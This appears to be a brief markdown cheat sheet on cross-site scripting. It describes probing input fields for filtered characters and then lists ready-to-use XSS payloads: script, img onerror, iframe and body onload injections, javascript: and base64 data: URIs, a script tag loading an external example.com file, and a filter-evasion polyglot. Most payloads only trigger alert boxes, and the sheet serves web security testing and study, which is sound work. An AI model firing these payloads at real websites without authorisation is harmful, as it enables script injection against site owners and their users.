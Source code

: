 # Methadology

1. Find the input places which may also be hidden

2. Test which characters are filtered
	- eg - `qwer>'<"//:=;!--{{7*7}}` 
	- find the response and note which characters were filtered




## Basic Payload Idea

```html
<script>alert('XSS')</script>
<img src=x onerror="javascript:alert('XSS')" >
<iframe src=javascript:alert(1)>
<body onload=alert(1)> 
"><img src=x onerror=prompt(1);>
<script>alert(1)<!- 
<a onmouseover"alert(1)">test</a>
<script src=//example.com/test.js> 
```

- can use in URL input from users

```
javascript:alert('XSS')
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
data:text/html,<script>alert('XSS')</script>
```

- Polyglot

```
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```